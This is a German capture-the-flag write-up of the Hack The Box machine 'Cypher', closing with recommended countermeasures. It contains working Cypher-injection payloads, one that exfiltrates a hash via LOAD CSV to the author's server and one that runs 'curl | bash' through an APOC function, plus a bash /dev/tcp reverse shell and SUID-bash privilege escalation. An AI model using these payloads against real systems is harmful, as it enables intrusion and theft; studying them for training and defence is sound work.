










# Maschine 2: Cypher

## 1. Netzwerkanbindung

Wie immer starten wir mit der Verbindung zum HTB‑Netzwerk via OpenVPN:

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

Verbindung wird durch die HTB‑Website bestätigt:


---

## 2. Zielerkennung & Vorbereitung

Ziel-IP von HTB erhalten: `10.10.11.57`

Vollständiger nmap‑Scan mit Versionserkennung, OS‑Erkennung, Scripts und Aggressivität `T4`:

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

Output zeigt SSH und HTTP:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```



Wir testen den HTTP‑Zugang über den Browser und merken schnell, dass die Seite `cypher.htb` erwartet – wir werden automatisch redirected.

Daher passen wir die `/etc/hosts` Datei an:

```bash
sudo nano /etc/hosts
```

```txt
10.10.11.57   cypher.htb
```



---

## 3. Web‑Enumeration & Eingabeprüfung

Direkt auf `http://cypher.htb` zeigt sich eine Seite mit Login‑Maske.




Wir testen `dirsearch`, um weitere Pfade zu finden:

```
/about
/api/ → zeigt /api/docs
/demo  → Login Page
/login
/testing/
```



Beim Testen von SQL‑Injection im Login mit `' OR 1=1` erhalten wir direkt einen Neo4j‑Fehler:



Das ist ein starker Hinweis: Backend nutzt **Neo4j** und **unsichere String‑Konkatenation**. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Ziel: Hash exfiltrieren.

Wir starten einen Python‑HTTP‑Server:

```bash
python3 -m http.server 8000
```

Dann testen wir eine modifizierte Payload mit `LOAD CSV` direkt in den Username‑Feld:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Im HTTP‑Server erscheint sofort:

```
GET /leak=9f54ca... HTTP/1.1
```



→ Funktioniert. Hash erfolgreich abgegriffen.

---

## 5. RCE mit getUrlStatusCode() via APOC

Wir testen weiter – unser Ziel ist Remote Code Execution (RCE).

Dokumentation zeigt, dass `apoc.custom` genutzt wird. Besonders gefährlich: `custom.getUrlStatusCode()`.

Wir erstellen `shell.sh` mit einer einfachen Bash‑Reverse‑Shell und liefern sie über den bereits laufenden Webserver:

```bash
# shell.sh
bash -i >& /dev/tcp/10.10.14.204/9001 0>&1
```

Listener starten:

```bash
nc -lvnp 9001
```

Dann bauen wir die Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Shell poppt – wir sind `neo4j`:

```
uid=997(neo4j) gid=995(neo4j)
```



---

## 6. Privilege Escalation → root

Wir suchen lokal nach Konfigurationsdateien, Umgebungsvariablen und SUID‑Binaries.

Zuerst entdecken wir ein Passwort in der Datei `bbot_preset.yml` (Zeile 10).

```bash
cat /opt/bbot/bbot_preset.yml
```

→ Enthält Klartext‑Passwort.

`su graphasm` klappt nicht – aber Bash mit SUID:

```bash
/tmp/bash -p
```

Jetzt sind wir root:

```bash
id
uid=0(root) gid=0(root)
```



---

## 7. Flags

```bash
cat /home/graphasm/user.txt
→ 0a4de27fa731a210ead73b20dfc80140

cat /root/root.txt
→ e5577526fb5f80c5cb113cde4111ab3d
```





HTB‑Link: [https://www.hackthebox.com/achievement/machine/2350832/650](https://www.hackthebox.com/achievement/machine/2350832/650)


## Empfehlungen & Geeignete Gegenmassnahmen

1.**Cypher-Injection absichern**

- Die Applikation war verwundbar gegenüber Cypher-Injection durch direkte String-Konkatenation in Neo4j-Abfragen.

   → **Massnahme:** Nutzung von **parametrisierten Cypher-Queries**, z. B. mit `$parameter`-Syntax, um direkte Injektionen zu verhindern.

2.**APOC-Plugins wie getUrlStatusCode beschränken**

- Die Funktion `custom.getUrlStatusCode()` wurde missbraucht, um RCE über `curl|bash` zu erzielen.

   → **Massnahme:** Deaktivieren oder hart absichern aller **unsicheren APOC-Prozeduren**, z. B. durch Whitelisting in der Konfiguration.

3.**Exfiltration über LOAD CSV verhindern**

- Durch `LOAD CSV FROM 'http://attacker'` konnte ein Hash exfiltriert werden.

   → **Massnahme:** Ausgehenden Netzwerkverkehr der Datenbank einschränken, insbesondere HTTP-Zugriffe durch Neo4j.

4.**Zugangsdaten nicht im Klartext speichern**

- Ein Passwort wurde im Klartext in `bbot_preset.yml` gefunden.

   → **Massnahme:** Konfigurationsdateien niemals für Klartext-Passwörter verwenden, sondern Umgebungsvariablen oder sichere Vaults.

5.**SUID-Binaries prüfen**

- SUID-Bash ermöglichte eine einfache Privilege Escalation.

   → **Massnahme:** Regelmässiger Audit aller SUID/SGID-Binaries mit Tools wie `find / -perm -4000 -type f -exec ls -la {} \;`

6.**Minimalprinzip für Benutzerrechte**

- Der Benutzer `neo4j` hatte Zugriff auf sensible Dateien und konnte durch Injektion Systemkommandos ausführen.

   → **Massnahme:** Rechte der Datenbankbenutzer auf das absolute Minimum reduzieren, insbesondere bei selbstgebauten Plugins oder Extensions.

7.**Logging und Monitoring**

- Es gab keinerlei Hinweis auf Überwachung oder Alarme bei ungewöhnlichem Verhalten (z. B. externer HTTP-Zugriff durch DB).

   → **Massnahme:** Integration von SIEM, File Integrity Monitoring und Alerting bei Anomalien im Datenbank- oder Web-Stack.
